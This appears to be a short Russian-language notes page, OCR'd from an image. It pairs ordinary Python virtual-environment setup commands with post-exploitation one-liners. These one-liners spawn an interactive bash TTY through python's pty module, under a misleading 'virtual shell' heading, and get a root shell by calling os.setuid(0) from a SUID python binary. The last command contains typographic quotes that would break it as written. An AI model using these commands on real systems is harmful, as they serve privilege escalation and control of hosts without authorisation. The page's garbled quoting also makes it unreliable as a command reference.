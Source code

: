 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

pip3 install .

# получение виртуальной оболочки внутри текущей сессии

python3 -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”
